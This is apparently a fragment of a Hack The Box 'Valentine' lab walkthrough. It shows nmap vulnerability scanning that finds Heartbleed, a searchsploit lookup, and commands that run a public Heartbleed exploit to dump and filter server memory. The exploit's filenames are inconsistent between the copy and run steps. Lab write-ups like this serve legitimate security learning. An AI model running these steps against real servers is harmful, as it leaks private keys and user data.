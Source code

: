I try to input different php code encoded in base64 in `/decode.php` nothing works, it seem like the site sanitize user input really well (or im just a noob)


refering to the pic of the front page we picture of a girl with blowing big red heart + we have SSL up and running.. it make me think about a vulnerablity that infected many ppl call ssl-heartbleed: lets run `nmap -scrip vuln` and see what its gives us:
```console
bibo318@parrot:/opt$ sudo nmap -p443 valentine.htb -script vuln
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 14:38 EDT
Nmap scan report for valentine.htb (10.10.10.79)
Host is up (0.040s latency).

PORT    STATE SERVICE
443/tcp open  https
.
.
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
- searchsploit
```console
bibo318@parrot:~/HTB/valentine$ searchsploit heartbleed
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure  | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)      | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTL | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure         | multiple/remote/32745.py
------------------------------------------------------------------------- ---------------------------------
```
# foot hold
## exploit heartbleeded
```console
bibo318@parrot:~/HTB/valentine$ searchsploit -m multiple/remote/32745.py # copy the script
bibo318@parrot:~/HTB/valentine$ python 32764.py valentine.htb > dump.txt # run exploit and dump it in .txt
```
not that there are many `00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` let romove it. Also,remove some dupliecate string
```console
bibo318@parrot:~/HTB/valentine$ grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" dump.txt > clean.txt
```
seem like there is no good data this time. let try again.
```
bibo318@parrot:~/HTB/valentine$ python 32764.py valentine.htb | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > dump.txt && cat dump.txt
```
after 3 times, I got really interesting string
```
00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
```